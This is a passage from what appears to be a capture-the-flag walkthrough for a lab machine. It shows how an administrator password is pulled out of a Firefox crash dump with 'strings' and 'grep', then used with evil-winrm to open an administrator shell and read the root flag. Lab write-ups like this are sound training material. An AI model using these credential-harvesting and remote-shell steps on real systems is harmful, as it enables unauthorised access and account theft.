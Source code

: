 ```
On your Kali
# strings firefox.exe_240901_131626.dmp | grep 'login_username='
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

Great! We got Admin Password

```
# evil-winrm -i 10.10.10.149 -u 'administrator' -p '4dD!5}x/re8]FBuZ'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop\
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
44b67b352b7c1813aa9017817aea2c00

```

Get your root flag